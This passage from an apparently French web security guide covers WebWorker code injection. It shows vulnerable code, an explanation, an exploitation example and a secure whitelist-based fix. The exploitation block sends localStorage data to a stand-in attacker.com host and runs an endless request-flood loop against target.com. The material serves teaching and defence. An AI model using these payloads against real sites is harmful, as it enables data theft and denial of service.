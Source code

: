 ## 5. WebWorker Code Injection

### Code Vulnérable
```javascript
function createWorker(userScript) {
    const blob = new Blob([userScript], { type: 'application/javascript' });
    const worker = new Worker(URL.createObjectURL(blob));
    return worker;
}
```

### Explication
La création dynamique de WebWorkers à partir d'entrées utilisateur peut permettre l'exécution de code arbitraire dans un contexte isolé, mais avec accès à certaines APIs sensibles.

### Exploitation
```javascript
const maliciousCode = `
    // Exfiltrer des données
    fetch('https://attacker.com/steal?' + 
        encodeURIComponent(localStorage.getItem('sensitive')));
        
    // Ou lancer une attaque DDoS
    while(true) {
        fetch('https://target.com/');
    }
`;

createWorker(maliciousCode);
```

### Solution Sécurisée
```javascript
// Utiliser des workers prédéfinis
const trustedWorkers = {
    'calculator': '/workers/calculator.js',
    'imageProcessor': '/workers/image.js'
};

function createWorker(workerName) {
    if (!trustedWorkers[workerName]) {
        throw new Error('Worker non autorisé');
    }
    return new Worker(trustedWorkers[workerName]);
}
```

## Ressources Complémentaires

- [DOM Clobbering](https://portswigger.net/web-security/dom-based)
- [Web Workers API Security](https://developer.mozilla.org/docs/Web/API/Web_Workers_API/Using_web_workers#Security_considerations)
- [PostMessage Security](https://developer.mozilla.org/docs/Web/API/Window/postMessage#Security_concerns)